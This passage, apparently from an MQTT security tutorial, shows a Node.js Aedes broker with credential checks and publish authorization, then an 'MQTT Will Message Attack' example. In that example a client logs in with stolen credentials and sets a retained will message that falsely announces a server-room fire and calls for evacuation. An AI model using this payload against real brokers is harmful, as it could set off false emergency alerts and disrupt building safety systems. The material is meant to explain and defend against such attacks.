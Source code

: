     const isValid = validateCredentials(username, password.toString());
    
    if (isValid) {
        client.user = username;
        client.permissions = getUserPermissions(username);
        callback(null, true);
    } else {
        const error = new Error('Invalid credentials');
        error.returnCode = 4;
        callback(error, null);
    }
};

// Authorization handler for publish
aedes.authorizePublish = (client, packet, callback) => {
    const topic = packet.topic;
    
    if (!hasPublishPermission(client.permissions, topic)) {
        const error = new Error('Publish not authorized');
        error.returnCode = 135;
        return callback(error);
    }
    
    if (packet.payload.length > 1048576) {
        return callback(new Error('Payload too large'));
    }
    
    callback(null);
};

server.listen(1883, () => {
    console.log('Secure MQTT broker started on port 1883');
});
```

### MQTT Will Message Attack
Attack Implementation:
```
// Malicious client with weaponized will message
const client = mqtt.connect('mqtt://broker.com:1883', {
    username: 'compromised_device',
    password: 'stolen_password',
    will: {
        topic: 'emergency/building/fire_alarm',
        payload: JSON.stringify({
            alert: 'FIRE_DETECTED',
            location: 'SERVER_ROOM',
            timestamp: new Date().toISOString(),
            evacuate: true
        }),
        qos: 2,
        retain: true
    }
});
